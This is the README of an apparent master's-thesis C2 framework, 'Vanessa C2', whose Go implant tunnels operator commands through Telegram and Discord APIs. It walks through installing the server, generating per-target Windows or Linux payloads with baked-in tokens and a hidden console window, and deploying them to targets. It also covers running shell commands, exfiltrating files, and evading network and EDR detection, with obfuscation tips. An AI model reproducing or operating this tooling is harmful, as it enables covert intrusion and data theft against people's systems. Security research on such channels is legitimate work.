


# Vanessa C2

<p align="center">
  
</p>

<p align="center">
  
  
  
  
  
  
  
</p>

> ⚠️ **Educational Proof-of-Concept Only.**
> This project was developed as part of a master's thesis researching *Living off Trusted Services* (LoTS) — a class of C2 evasion techniques that abuse legitimate cloud platforms to proxy adversary traffic. **Deploy only on systems you own or have explicit written authorization to test.** Unauthorized use is illegal under the Computer Fraud and Abuse Act (CFAA), the UK Computer Misuse Act, and equivalent legislation worldwide.

---

## Overview

**Vanessa C2** is a post-exploitation Command & Control framework that leverages **Cloud-based Public Legitimate Services (CPLS)** — specifically **Telegram** and **Discord** — as its communication channels.

Instead of standing up custom C2 infrastructure (domains, VPS, redirectors) that can be burned by threat intelligence, Vanessa rides on trusted third-party HTTPS APIs. From a network defense perspective, the traffic is indistinguishable from an employee using Discord or Telegram — standard TLS connections to `discord.com` and `api.telegram.org`.

### Why This Matters

Traditional C2 frameworks (Cobalt Strike, Sliver, Mythic) require dedicated infrastructure that defenders actively hunt. LoTS frameworks eliminate this attack surface entirely:

| Aspect | Traditional C2 | Vanessa C2 (LoTS) |
|--------|---------------|-------------------|
| **Infrastructure** | Custom domains, VPS, redirectors | None — uses Telegram/Discord APIs |
| **Network visibility** | Suspicious domains, unusual TLS certs | Traffic to trusted, allowlisted domains |
| **DNS blocking** | Easily blocked | Blocking Discord/Telegram breaks business ops |
| **NDR detection** | ML heuristics can flag beacon patterns | Blends with millions of legitimate API calls |
| **Burn risk** | High — domains get flagged fast | Low — platform accounts are disposable |

---

## Key Capabilities

- **Multi-channel C2** — Telegram + Discord with live runtime channel switching
- **On-demand payload generation** — Cross-compile agents with unique, per-target tokens baked in at build time
- **Jitter & evasion** — Randomized beacon intervals to defeat frequency-analysis-based NDR detection
- **Persistent state** — SQLite-backed agent registry survives server restarts
- **File exfiltration** — Download files from compromised targets
- **Interactive operator console** — Full shell with agent selection, channel switching, and health monitoring
- **Agent reaper** — Automatically marks dead agents based on last-seen timestamps
- **Dockerized deployment** — One-command install, server runs in Docker

---

## Architecture

<p align="center">
  
</p>

### Communication Flow

```
┌──────────────┐     HTTPS/TLS      ┌─────────────────┐     HTTPS/TLS      ┌──────────────┐
│   Operator    │ ──────────────────▶│   Telegram API   │◀────────────────── │    Agent     │
│   Console     │                    │   Discord API    │                    │  (Target)    │
│  (Python)     │                    │  (Trusted Cloud) │                    │   (Go)       │
└──────────────┘                    └─────────────────┘                    └──────────────┘
      │                                                                          │
      │  INSTRUCTION|agent_id|instr_id|whoami                                   │
      │ ──────────────────────────────────────────────────────────────────────▶  │
      │                                                                          │
      │                                    RESULT|agent_id|instr_id|output       │
      │ ◀──────────────────────────────────────────────────────────────────────  │
```

**All traffic passes through legitimate cloud APIs.** Network defenders see encrypted HTTPS connections to trusted domains — nothing more.

---

## Tech Stack

| Component | Technology | Purpose |
|-----------|------------|---------|
| **Server** | Python 3.10+, Flask, Telethon (MTProto), discord.py | Operator console, agent management, channel orchestration |
| **Agent** | Go 1.22+, discordgo | Cross-platform implant (Windows/Linux) |
| **Database** | SQLite | Persistent agent registry, instruction logging |
| **Channels** | Telegram Bot API, Discord Bot API | C2 transport layer |
| **Deployment** | Docker, Docker Compose | Server containerization, agent cross-compilation |

---

## Project Structure

```
Vanessa-C2/
├── install.sh                      # One-command installer
├── Makefile                        # make install / make uninstall
├── vanessa                         # CLI wrapper (→ /usr/local/bin/vanessa)
├── docker-compose.yml              # Server container orchestration
│
├── server/                         # ── C2 Server (Python) ──────────────
│   ├── Dockerfile                  # Server container image
│   ├── app.py                      # Operator console + Flask API
│   ├── core/
│   │   ├── agent.py                # Agent registry + reaper thread
│   │   ├── channel.py              # Abstract C2Channel interface
│   │   └── crypto.py               # Protocol encoding (Python)
│   ├── channels/
│   │   ├── telegram.py             # Telegram channel (Telethon MTProto)
│   │   └── discord.py              # Discord channel (discord.py)
│   ├── .env.example                # Template — API credentials
│   └── requirements.txt
│
├── client/                         # ── Agent / Implant (Go) ────────────
│   ├── Dockerfile.build            # Go cross-compiler image
│   ├── main.go                     # Entry point — tokens injected via -ldflags
│   ├── core/
│   │   ├── config.go               # AgentConfig (jitter, intervals)
│   │   ├── identity.go             # Deterministic agent ID (SHA-256)
│   │   ├── channel.go              # C2Channel interface
│   │   └── beacon.go               # Beacon logic
│   ├── channels/
│   │   ├── telegram/client.go      # Telegram channel (HTTP long-polling)
│   │   └── discord/client.go       # Discord channel (WebSocket via discordgo)
│   ├── utils/
│   │   └── encoding.go             # Protocol encoding (Go)
│   └── .env.example                # Template — not shipped with payloads
│
├── generator/
│   └── generate.sh                 # Payload generator (token injection)
│
└── assets/
    └── README-img/
```

---

## Quick Start

### Prerequisites

- **Docker** + **Docker Compose V2** (mandatory)
- **Go 1.21+** (optional — Docker handles cross-compilation)
- Telegram account + API credentials from [my.telegram.org/apps](https://my.telegram.org/apps)
- Telegram bot via [@BotFather](https://t.me/BotFather)
- Discord bot + server via [Discord Developer Portal](https://discord.com/developers/applications)

### 1. Clone & Install

```bash
git clone https://github.com/SaadAzil3/Vanessa-C2.git
cd Vanessa-C2
make install
```

This will:
- Check Docker is installed
- Build the C2 server Docker image
- Build the Go cross-compiler image (for payload generation)
- Install the `vanessa` CLI to `/usr/local/bin/`
- Create `~/.vanessa/payloads/` for generated agents

### 2. Configure

Edit `server/.env` with your API keys:

```env
API_ID=12345678
API_HASH=your_api_hash
PHONE=+213xxxxxxxxx
BOT_TOKEN=your_telegram_bot_token
CHAT_ID=-100xxxxxxxxxx
DISCORD_TOKEN=your_discord_bot_token
DISCORD_CHANNEL_ID=your_discord_channel_id
```

### 3. Start the Server

```bash
vanessa server
```

### 4. Generate a Payload

```bash
vanessa generate
```

```
  ╔════════════════════════════════════════╗
  ║  Vanessa C2 — Payload Generator        ║
  ╚════════════════════════════════════════╝

  Target OS [windows/linux]: windows
  Telegram Bot Token: 87012334:AAFFFMko...
  Telegram Chat ID: -1003728125166
  Discord Bot Token: MTQ5MDI5Mjcw...

  [*] Cross-compiling agent for windows/amd64...

  ╔════════════════════════════════════════╗
  ║  ✓ Payload Generated Successfully       ║
  ╚════════════════════════════════════════╝

  File:    ~/.vanessa/payloads/agent_windows_20260501_143022.exe
  OS:      windows/amd64
  Size:    6.8M
  SHA256:  a3f9c8b2e1...
```

Each payload has **unique tokens baked into the binary** at compile time via Go's `-ldflags -X`. No `.env` files, no config files — a single static binary.

### 5. Deploy & Operate

Transfer the payload to the target. Once executed, the agent checks in:

```bash
vanessa attach
```

```
  ★ Agent checked in: a3f9c8b2 (DESKTOP-PC / admin@192.168.1.50) via telegram

vanessa(DESKTOP-PC)> whoami
  desktop-pc\admin

vanessa(DESKTOP-PC)> switch discord
  SWITCH command sent to a3f9c8b2 → discord
  ↔ Agent a3f9c8b2 switched to discord
```

---

## CLI Reference

After installation, all operations are managed through the `vanessa` command:

```
vanessa <command>

Commands:
  server       Start the C2 server (Docker)
  stop         Stop the C2 server
  attach       Attach to the operator console
  generate     Generate a new agent payload
  payloads     List all generated payloads
  logs         Tail server logs
  status       Show server health status
  uninstall    Remove vanessa from system
```

## Operator Console Commands

Once attached to the operator console (`vanessa attach`):

| Command | Description |
|---------|-------------|
| `agents` | List all connected agents with status |
| `use <id>` | Select an agent to interact with (supports partial ID match) |
| `info` | Show detailed information on selected agent |
| `back` | Deselect current agent |
| `channels` | List active C2 channels |
| `switch <channel>` | Switch agent to `telegram` or `discord` at runtime |
| `download <path>` | Exfiltrate a file from the target |
| `sysinfo` | Get target system information |
| `kill` | Terminate the agent process |
| `exit` | Shut down the C2 server |
| `<any command>` | Execute a shell command on the target |

> **Tip:** Detach from the console without stopping the server: `Ctrl+P`, then `Ctrl+Q`.

---

## How Payload Generation Works

Traditional C2 agents ship with config files or fetch their configuration from a staging server. Vanessa takes a different approach — **tokens are injected directly into the Go binary at compile time**.

```
Operator provides tokens
        │
        ▼
go build -ldflags="-X main.telegramToken=XXX
                   -X main.telegramChatID=YYY
                   -X main.discordToken=ZZZ
                   -s -w -H windowsgui"
        │
        ▼
Single static binary (no config files, no .env)
```

This means:
- **Each payload is unique** — different tokens per target/engagement
- **No config files on disk** — nothing for EDR file-scanning to flag
- **Burned tokens don't cascade** — compromising one agent's tokens doesn't compromise others
- **Symbols stripped** — `-s -w` removes debug info, `-H windowsgui` hides the console window on Windows

---

## Protocol

### Message Format

All C2 communication uses a simple pipe-delimited protocol riding on platform messages:

```
CHECKIN|<agent_id>|<hostname>|<os>|<user>|<ip>
INSTRUCTION|<agent_id>|<instr_id>|<command>
RESULT|<agent_id>|<instr_id>|<output>
SWITCH|<agent_id>|<channel_name>
SWITCHACK|<agent_id>|<channel_name>
```

### Transport Security

All traffic is encrypted by the native **HTTPS/TLS** of the Telegram and Discord APIs. To a network defender sniffing the wire, it's indistinguishable from normal platform usage.

---

## Limitations & OPSEC Considerations

| Concern | Details |
|---------|---------|
| **Message size** | Telegram: 4096 chars, Discord: 2000 chars — output is truncated |
| **Rate limiting** | Both platforms enforce API rate limits that affect beacon frequency |
| **Token extraction** | If an analyst reverse-engineers the agent binary, they can extract the tokens. Mitigations: compile with `garble`, use XOR string obfuscation |
| **Platform bans** | Telegram/Discord can ban bot accounts if flagged for abuse |
| **Payload OpSec** | Data is sent as plaintext to the platform APIs (encrypted in transit by TLS, but visible to the platform). A production C2 would add AES-256-GCM payload encryption |

---

## Disclaimer

```
╔══════════════════════════════════════════════════════════════════════════╗
║  This tool is developed strictly for EDUCATIONAL PURPOSES and           ║
║  AUTHORIZED SECURITY TESTING as part of a master's thesis on            ║
║  network evasion techniques using legitimate cloud services.            ║
║                                                                          ║
║  You are solely responsible for ensuring that your use of this tool      ║
║  complies with all applicable laws and regulations. The author           ║
║  assumes no liability for misuse.                                        ║
║                                                                          ║
║  Unauthorized access to computer systems is a criminal offense.          ║
╚══════════════════════════════════════════════════════════════════════════╝
```

---

## Author

**Saad Azil** — Cybersecurity Master's Student

---

## License

MIT License — see [LICENSE](LICENSE) for details.
